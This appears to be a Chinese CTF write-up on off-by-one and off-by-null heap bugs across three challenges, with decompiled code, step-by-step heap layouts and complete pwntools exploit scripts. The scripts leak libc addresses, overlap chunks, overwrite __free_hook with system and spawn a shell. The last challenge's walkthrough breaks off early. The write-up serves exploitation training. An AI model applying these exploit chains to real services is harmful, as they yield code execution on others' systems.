off by one近期题目详解

- - -

# off by one近期题目详解

## 背景知识

off-by-one漏洞顾名思义，就是我们在向缓冲区写入数据的时候由于限制条件或边界验证的不严格，导致多写入一个字节导致缓冲区溢出一个字节。我们在CTF中常见的溢出方式有：  
1、在遇到用strcpy函数将某个变量或常量的值写入堆内时，复制遇到结束符\\x00停止，并且在复制结束的时候在结尾写入一个\\x00。那么在读入的数据和堆快的最大存储内容大小相等的时候，就会向外溢出一个字节的“\\x00”，从而形成off-by-one。  
2、在向堆内循环写入的时候，没有控制好循环次数而导致多写入一字节的内容，导致off-by-one  
3、在CTF中出题人故意写出的off-by-one漏洞。比如：size+1<=max\_content\_size

## 内部赛

2.31的off by null,无uaf，限制了申请的大小在0x100,所以需要合理布局

### ida

```plain
int user_add()
{
  unsigned int size; // [rsp+8h] [rbp-48h]
  unsigned int size_4; // [rsp+Ch] [rbp-44h]
  char buf[32]; // [rsp+10h] [rbp-40h] BYREF
  char nptr[24]; // [rsp+30h] [rbp-20h] BYREF
  unsigned __int64 v5; // [rsp+48h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("iput note size:");
  read(0, buf, 0x10uLL);
  size = atoi(buf);
  if ( !size )
    return 0;
  if ( size > 0x100 )
    return 0;
  puts("Which one?");
  read(0, nptr, 0x10uLL);
  size_4 = atoi(nptr);
  if ( size_4 > 0xF )
    return 0;
  if ( *((_QWORD *)&heap_ptr + size_4) )
    return puts("not empty!");
  *((_QWORD *)&heap_ptr + size_4) = malloc(size);
  heap_size[size_4] = size;
  puts("content:");
  read(0, *((void **)&heap_ptr + size_4), size);
  return puts("malloc OK!");
}
```

```plain
int user_edit()
{
  unsigned int v1; // [rsp+Ch] [rbp-24h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("which one?");
  read(0, buf, 0x10uLL);
  v1 = atoi(buf);
  if ( v1 > 0xF )
    return 0;
  if ( !heap_ptr[v1] )
    return puts("empty!");
  puts("content:");
  edit_read(heap_ptr[v1], (unsigned int)heap_size[v1]);
  return puts("edit OK!");
}
```

```plain
__int64 __fastcall edit_read(_BYTE *a1, int a2)
{
  int v2; // eax
  unsigned int v6; // [rsp+18h] [rbp-8h]

  while ( 1 )
  {
    v2 = a2--;
    if ( v2 < 0 )
      break;
    v6 = read(0, a1, 1uLL);
    if ( !v6 )
      break;
    if ( v6 == -1 )
    {
      if ( __errno_location() != 11 && __errno_location() != 4 )
        return 0xFFFFFFFFLL;
    }
    else
    {
      if ( *a1 == 10 )
      {
        *a1 = 0;
        return v6;
      }
      ++a1;
    }
  }
  return v6;
}
```

### 思路

利用off by null在unsorted bin中实现chunk的合并，然后去修改fd指针，打system('/bin/sh')

### 详细流程

先在tcachebins 中泄露堆地址

```plain
add(0,0xf8,'aaaa')
add(1,0xf8,'aaaa')
delete(1)
delete(0)

add(1,0xf8,'')
show(1)
r(9)
heap_base=u64(p.recv(6).ljust(8,'\x00'))-0x30a
leak('heap_base ',heap_base)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115212929-0109f9a4-83bb-1.png)  
然后重置一下idx，然后布置一下chunk(填满tcachebins，然后留出两个chunk用来合并，最后free 的chunk用来泄露libc)

```plain
delete(1)
for i in range(11):
    add(i,0xf8,'')

for i in range(7):
    delete(i)

delete(9)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115212945-0ac74654-83bb-1.png)  
泄露一下libc然后，把chunk链入small bin中

```plain
add(11,0x10,'')

show(11)
r(9)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc0a
leak('libc_base ',libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

delete(11)
add(12,0xe0,'')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213004-15ac9b96-83bb-1.png)  
然后在下面那个位置伪造chunk来进行合并

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213014-1be109ac-83bb-1.png)

```plain
pl=p64(0)+p64(0xf1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0)
pl=pl.ljust(0xf0,'\x00')
pl+=p64(0xf0)
edit(7,pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213026-232a5c86-83bb-1.png)  
这里大小为0x100=就是为了方便覆盖:这里是伪造的chunk，fd和bk都为伪造chunk的chunk头，然后伪造了next\_chunk\_pre\_size，然后利用了off by null置空inuse，这里因为把'\\n'变成了'\\x00'，所以这里最后只会保留倒数第三位，所以才要求chunk大小为0x100或者0x200或者0x300

```plain
delete(8)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213050-31306870-83bb-1.png)  
可以看到unsortedbin中已经合并了  
这时候chunk7还保留了chunk指针，然后我们在合并的unsorted bin 中申请chunk，这时候chunk7和申请的chunk有重叠的部分，我们就可以去修改chunk7来改fd了

```plain
for i in range(7):
    add(i,0xf8,'')

add(9,0xf8,'')

delete(1)
delete(9)

pl = p64(0)+p64(0x100)+p64(free_hook)

edit(7,pl)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213111-3d9d2152-83bb-1.png)

```plain
add(1,0xf8,'/bin/sh\x00')
add(9,0xf8,p64(system))

sla('>> ',str(2))
sla('which note do you want delete?\n',str(1))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213121-440d4648-83bb-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')

add_idx = 1
delete_idx = 2
show_idx = 3
edit_idx = 4

def duan():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('>> ',cho)

def add(idx,size,content):
    choice(add_idx)
    sla('iput note size:\n',size)
    sla('Which one?\n',idx)
    sla('content:\n',content)

def delete(idx):
    choice(delete_idx)
    sla('which note do you want delete?\n',idx)

def show(idx):
    choice(show_idx)
    sla('which one?\n',idx)

def edit(idx,content):
    choice(edit_idx)
    sla('which one?\n',idx)
    sla('content:\n',content)


add(0,0xf8,'aaaa')
add(1,0xf8,'aaaa')
delete(1)
delete(0)

add(1,0xf8,'')
show(1)

r(9)
heap_base=u64(p.recv(6).ljust(8,'\x00'))-0x30a
leak('heap_base ',heap_base)
delete(1)


for i in range(11):
    add(i,0xf8,'')

for i in range(7):
    delete(i)

delete(9)
add(11,0x10,'')

show(11)
r(9)
libc_base=u64(p.recv(6).ljust(8,'\x00'))-0x1ecc0a
leak('libc_base ',libc_base)

free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system'] 

delete(11)
add(12,0xe0,'')


pl=p64(0)+p64(0xf1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0)
pl=pl.ljust(0xf0,'\x00')
pl+=p64(0xf0)
edit(7,pl)
delete(8)

for i in range(7):
    add(i,0xf8,'')

add(9,0xf8,'')
delete(1)
delete(9)

pl = p64(0)+p64(0x100)+p64(free_hook)
edit(7,pl)
add(1,0xf8,'/bin/sh\x00')
add(9,0xf8,p64(system))

sla('>> ',str(2))
sla('which note do you want delete?\n',str(1))
itr()
```

## ISCC线下赛-私地

glibc2.23 : off by one + chunk Overlapping  
off by one 向下合并：size and prev size inuse  
合并只需要改chunk一步就能成功，然后free后就能释放，释放后再次申请就有重叠的chunk了

### ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[4]; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  while ( 1 )
  {
    menu();
    read(0, buf, 4uLL);
    switch ( atoi(buf) )
    {
      case 1:
        create_user();
        break;
      case 2:
        edit_user();
        break;
      case 3:
        show_user();
        break;
      case 4:
        delete_user();
        break;
      case 5:
        exit(0);
      default:
        puts("Invalid Choice");
        break;
    }
  }
}
```

```plain
unsigned __int64 create_user()
{
  __int64 v0; // rbx
  int i; // [rsp+4h] [rbp-2Ch]
  size_t size; // [rsp+8h] [rbp-28h]
  char buf[8]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v5; // [rsp+18h] [rbp-18h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i <= 9; ++i )
  {
    if ( !*(&heaparray + i) )
    {
      *(&heaparray + i) = malloc(0x10uLL);
      if ( !*(&heaparray + i) )
      {
        puts("Allocate Error");
        exit(1);
      }
      printf("enter the user ID : ");
      read(0, buf, 8uLL);
      size = atoi(buf);
      v0 = *(&heaparray + i);
      *(v0 + 8) = malloc(size);
      if ( !*(*(&heaparray + i) + 8LL) )
      {
        puts("Allocate Error");
        exit(2);
      }
      **(&heaparray + i) = size;
      printf("enter the username : ");
      read_input(*(*(&heaparray + i) + 8LL), size);
      puts("SuccessFul");
      return __readfsqword(0x28u) ^ v5;
    }
  }
  return __readfsqword(0x28u) ^ v5;
}
```

```plain
unsigned __int64 edit_user()
{
  int v1; // [rsp+0h] [rbp-10h]
  char buf[4]; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v3; // [rsp+8h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("Index :");
  read(0, buf, 4uLL);
  v1 = atoi(buf);
  if ( v1 >= 0xA )
  {
    puts("Out of bound!");
    _exit(0);
  }
  if ( *(&heaparray + v1) )
  {
    printf("enter the username : ");
    read_input(*(*(&heaparray + v1) + 8LL), **(&heaparray + v1) + 1LL);
      //off by one
    puts("Done !");
  }
  else
  {
    puts("No this user !");
  }
  return __readfsqword(0x28u) ^ v3;
}
```

申请chunk前会先申请0x10的chunk，然后是按照修改地址也是从0x10chunk里面寻址的

### 题目特点

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213242-741b2512-83bb-1.png)  
这样利用off by one 先去重叠chunk，然后我们再去修改0x10chunk中地址为free\_hook,然后修改为system就可以

### 详细流程

首先找个地址写个/bin/sh\\x00

```plain
add(0x10,'/bin/sh\x00')
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213303-8052ed60-83bb-1.png)  
然后利用unsorted bin把libc\_base泄露出来

```plain
add(0x88,'aaaa')
add(0x18,'aaaa')
delete(1)
add(0x88,'a'*8)
show(1)
ru('aaaaaaaa')
libc_base = u64(p.recv(6).ljust(8,'\x00'))-0x3c4b0a
leak('libc_base ',libc_base)
system = libc_base + libc.sym['system'] 
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213316-884b25d2-83bb-1.png)  
然后直接利用off by one 修改size，然后把这个chunk free掉

```plain
add(0x18,'')
add(0x18,'')
add(0x18,'')
add(0x18,'')

edit(2,p64(0)*3+p8(0x81))
delete(3)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213336-9478687e-83bb-1.png)

```plain
add(0x70,p64(0)*8+p64(0x10)+p64(free_hook))
```

利用chunk Overlapping然后将修改地址的索引改成free\_hook,这样就可以直接改hook了

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213355-9fb89d62-83bb-1.png)

```plain
edit(4,p64(system))
delete(0)
```

直接将free\_hook改成system，然后free(0)就可以

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213419-adb566de-83bb-1.png)

### exp

```plain
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc.so.6')


add_idx = 1
delete_idx = 4
show_idx = 3
edit_idx = 2

def duan():
    gdb.attach(p)
    pause()

def choice(cho):
    sla('',cho)

def add(size,content):
    choice(add_idx)
    #sla('',idx)
    sla('enter the user ID : ',size)
    sla('enter the username : ',content)

def delete(idx):
    choice(delete_idx)
    sla('Index :',idx)

def show(idx):
    choice(show_idx)
    sla('Index :',idx)

def edit(idx,content):
    choice(edit_idx)
    sla('Index :',idx)
    #sla('',size)
    sa('enter the username : ',content)

add(0x10,'/bin/sh\x00')
add(0x88,'aaaa')
add(0x18,'aaaa')
delete(1)

add(0x88,'a'*8)
show(1)
ru('aaaaaaaa')
libc_base = u64(p.recv(6).ljust(8,'\x00'))-0x3c4b0a
leak('libc_base ',libc_base)


system = libc_base + libc.sym['system'] 
free_hook = libc_base + libc.sym['__free_hook']
malloc_hook = libc_base + libc.sym['__malloc_hook']
bin_sh = libc_base + next(libc.search(b'/bin/sh'))
add(0x18,'')
add(0x18,'')
add(0x18,'')
add(0x18,'')
edit(2,p64(0)*3+p8(0x81))
delete(3)
add(0x70,p64(0)*8+p64(0x10)+p64(free_hook))
edit(4,p64(system))
delete(0)
'''
'''
#duan()
itr()
```

## 鹏城杯-babyheap

glibc2.38 : off by null + IO\_leak + attack tcache\_struct + 高版本打栈

### ida

```plain
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  IO();
  heap_addr();
  while ( 1 )
  {
    menu();
    switch ( (unsigned int)sub_136B() )
    {
      case 1u:
        add();
        break;
      case 2u:
        edit();
        break;
      case 3u:
        show();
        break;
      case 4u:
        delete();
        break;
      case 5u:
        return 0LL;
      default:
        puts("invalid choice");
        break;
    }
  }
}
```

```plain
__int64 add()
{
  int i; // [rsp+0h] [rbp-10h]
  int v2; // [rsp+4h] [rbp-Ch]

  for ( i = 0; i <= 15 && qword_4060[i]; ++i )
    ;
  if ( i == 16 )
  {
    puts("list full\n");
    return 0LL;
  }
  else
  {
    puts("input your name size");
    v2 = sub_136B();
    if ( v2 > 1023 && v2 <= 1280 )
    {
      qword_4060[i] = malloc(v2);
      dword_40E0[i] = v2;
      puts("input your name");
      read_libc(qword_4060[i], v2);
      return 0LL;
    }
    else
    {
      puts("invalid size");
      return 0LL;
    }
  }
}
```

```plain
unsigned __int64 __fastcall sub_13BE(__int64 a1, int a2)
{
  char buf; // [rsp+13h] [rbp-Dh] BYREF
  int i; // [rsp+14h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+18h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i < a2; ++i )
  {
    read(0, &buf, 1uLL);
    if ( buf == 10 )
      break;
    *(a1 + i) = buf;   
  }
  *(i + a1) = 0;  //off by null
  return v5 - __readfsqword(0x28u);
}
```

### 详细流程

先泄露堆地址

```plain
ru('and this line will make the game easier\n')
heap_base=int(r(14),16)-0x2a0
leak('heap_base ',heap_base)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231115213539-dd8480de-83bb-1.png)  
chunk0从fd位置开始伪装，然后后续chunk1和chunk2

```plain
add(0x418,p64(0)+p64(0x1880)+p64(heap_base+0x2c0)+p64(heap_base+0x2c0)) #idx0
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x408,'aaaa')
add(0x418,'aaaa')
